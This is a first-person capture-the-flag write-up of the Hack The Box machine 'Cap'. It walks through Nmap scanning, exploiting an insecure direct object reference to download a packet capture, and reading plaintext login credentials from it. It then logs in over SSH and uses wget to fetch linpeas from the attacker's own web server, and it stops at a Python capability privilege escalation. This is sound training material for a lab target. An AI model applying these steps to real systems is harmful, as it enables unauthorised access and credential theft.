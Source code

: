 # Cap

Hi:) this is my first write up and I decided to chose easy machine **Cap** from HTB.

## Enumeration

Just starting with Nmap:

```
nmap -sVC 10.10.10.245
```

![nmap](https://github.com/user-attachments/assets/428de170-61a9-4b2b-be77-85d76d020844)

Here we can see 3 tcp ports and on one of them there is FTP, in the future it may be useful. But now let’s check the website. Add this to hosts file (or the site will not work):

```
10.10.10.245 cap.htb
```

## Checking HTTP (port 80)

![site1](https://github.com/user-attachments/assets/2632adb9-433d-40ae-a186-bbc7a642a361)

Wow, it's logged as user. Here we can see different pages: _**IP config**_ shows output of the `ifconfig` command, _**Network status**_ the output of the `netstat`, but the "Security snapshot" caught my attention.

![image](https://github.com/user-attachments/assets/1ccaa9f8-46dd-47cf-a25e-2798dde41062)

When downloading, we get a **6.pcap** file, by opening it with **wireshark**, we can see the network data. If we try to re-visit this page, we will see a different value in the address bar, I have this value `7`. And if we try to change this value ourselves, there will be another file. Well, this is [IDOR](https://en.wikipedia.org/wiki/Insecure_direct_object_reference).

Deciding to check each **pcap** file, I tried the value `0`, and yes! This one is different from the others.

![image](https://github.com/user-attachments/assets/b54cf197-700e-45ba-8001-1e227f15069f)

After analyzing it a little, I saw these lines:

![image](https://github.com/user-attachments/assets/0477b462-75ea-48b0-af83-fa7082b9e875)

Here we see requests in which the user _**Nathan**_ logs in and is successful, which means we can use this data.

### What we have at the moment? 
- Login: Nathan
- Password: Buck3tH4TF0RM3!


We've found out the most important thing, so now we can move on to logging in and searching for the flag.

Now we log in with this data, I will use SSH because it is more convenient, but you can also use FTP.

```
ssh nathan@10.10.10.245
```

![image](https://github.com/user-attachments/assets/dd52c114-7a7b-49d7-82a7-d14918ec18ce)

And here is our user flag.

## Privilege Escalation

![image](https://github.com/user-attachments/assets/98284242-7e7e-4e65-9392-9d934aca2e50)

As we can see, our **Nathan** does not have the ability to use `sudo`, so we use `linpeas`.

Launching our server on Python:

```
sudo python3 -m http.server 9999
```
and with `wget` getting `linpeas`:

```
wget http://10.10.14.139:9999/linpeas.sh
```

![image](https://github.com/user-attachments/assets/4ec087bf-b0e1-48c1-a4e7-091e7055277c)

Launching linpeas:

```
nathan@10.10.10.245:~$ ./linpeas.sh
```
![image](https://github.com/user-attachments/assets/8367a5e4-c23a-4b19-9ccd-709f2034566d)

And that's the vulnerability, which means that with Python's help we can change Nathan's ID to Root's ID.

